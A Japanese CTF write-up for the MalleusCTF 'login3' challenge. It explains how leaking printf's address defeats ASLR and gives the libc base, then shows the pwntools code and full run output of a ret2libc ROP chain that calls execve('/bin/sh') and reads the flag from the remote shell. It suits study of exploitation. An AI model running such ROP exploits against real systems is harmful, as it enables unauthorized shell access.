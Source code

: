 ## 詰まった点

libc内のアドレス：あくまでもlibcの先頭からの相対アドレス

つまり、絶対アドレスは`libcのアドレス + libc内のアドレス`となる

ゴールとしては、libc内の`/bin/sh`を動かす事である

それにはサーバ上で動くlibcのアドレスが必要となる

そこで、ASLRがONとなった状態の`printf`の絶対アドレスから、libc内の`printf`のアドレスを差し引く事で、サーバ上で動くlibcのアドレスが分かる。

そして、ROPのチェインを組む際のlibcのアドレスとして、上記で求めたサーバ上のlibcのアドレスを指定し、`execve(/bin/sh, 0)`を実行する事でシェルが取れる
```
printf = unpack(printf[:-1].ljust(8, b'\0'))
print('printf: %x' %printf)                  #7f4d9b8b0e80
print('libc printf %x' %libc.symbols.printf) #64e80

libc.address = printf - libc.symbols.printf

rop = ROP(libc)
addr_sh = libc.search(b'/bin/sh').next() 
rop.execve(addr_sh, 0, 0)
```

## exploit

```
$ python exploit.py r
[*] 'ctf/writeup/MalleusCTF/login3/login3'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to host on port 10003: Done
[*] 'ctf/writeup/MalleusCTF/login3/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Loaded cached gadgets for './login3'
0x0000:         0x400873 pop rdi; ret
0x0008:         0x601020 [arg0] rdi = got.printf
0x0010:         0x4005cc puts
0x0018:         0x400782 main()
Invalid ID or password

printf: 7f4c9dc8fe80
libc printf 64e80
[*] Loaded cached gadgets for './libc-2.27.so'
libc.search(b'/bin/sh').next() 7f4c9dddee9a
0x0000:   0x7f4c9dc4ee6a pop rsi; ret
0x0008:              0x0 [arg1] rsi = 0
0x0010:   0x7f4c9dc4c55f pop rdi; ret
0x0018:   0x7f4c9dddee9a [arg0] rdi = 139967042809498
0x0020:   0x7f4c9dd0fe30 execve
[*] Switching to interactive mode
Invalid ID or password
$ ls
flag.txt
login3
login3.sh
$ cat flag.txt
FLAG{vOvF4gQyzrRq50eH}
$
[*] Closed connection to host port 10003
```
